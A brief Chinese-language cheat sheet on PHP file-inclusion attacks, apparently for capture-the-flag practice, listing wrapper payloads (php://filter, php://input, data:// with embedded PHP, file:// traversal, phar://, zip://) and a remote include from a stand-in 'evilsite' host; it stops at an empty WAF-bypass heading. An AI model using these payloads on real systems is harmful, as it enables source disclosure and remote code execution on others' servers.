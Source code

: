 # 文件包含
## 文件包含使用方式：
### php伪协议：
```
php://filter/convert.base64-encode/resource=flag.php
php://input 读取post请求的数据
```
### data协议（将数据嵌入网页中）
```
data:[<mediatype>][;base64],<data>
data://text/plain,<?php phpinfo()?>
data://text/plain;base64,xxxxx
```
### http协议
```
http:www.evilsite/payload.php
```
### file协议
```
file:///../../../flag.php
```
### phar协议
```
phar://path/to/archive.phar/file.txt    表示访问archive.phar文件中的file.txt文件
```
### zip协议
```
zip://path/to/archive.zip#file.txt     表示访问archive.zip文件中的file.txt文件
```
## waf绕过
### 脏数据绕过